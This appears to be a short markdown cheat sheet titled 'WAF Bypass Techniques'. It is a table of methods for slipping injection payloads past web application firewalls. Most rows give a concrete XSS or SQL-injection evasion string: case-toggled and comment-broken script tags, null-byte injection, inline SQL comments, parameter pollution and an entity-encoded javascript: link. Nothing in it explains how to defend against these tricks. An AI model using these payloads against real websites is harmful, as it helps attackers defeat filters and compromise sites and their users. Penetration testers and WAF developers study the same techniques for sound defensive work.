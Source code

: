 # WAF Bypass Techniques

| Technique                  | Example                                            | Purpose                                      |
|---------------------------|----------------------------------------------------|----------------------------------------------|
| Case Toggling             | `<ScrIpT>confirm()</sCRiPt>`                       | Change casing to bypass filters              |
| Using Comments            | `<!--><script>confirm/**/()/**/</script>`          | Inject comments to disrupt parsing           |
| Null Character Injection  | `%00`                                              | Disrupt WAF parser                           |
| Inline Comments           | `/*!SELECT*/`                                      | Break keyword detection                      |
| HTTP Parameter Pollution  | `?id=1&id=2`                                       | Confuse parameter parsers                    |
| Keyword Splitting         | `SEL<ECT>`                                         | Split keywords                               |
| Character Reference Encoding | `<a href=j&#97v&#97script&#x3A;&#97lert(1)>`   | Use ASCII/hex refs                           |
| Junk Characters           | `<script>+-+-1-+-+alert(1)</script>`               | Add noise to mask intent                     |
| WAF Auto-Learning         | N/A                                                | Exploit adaptive behavior                    |
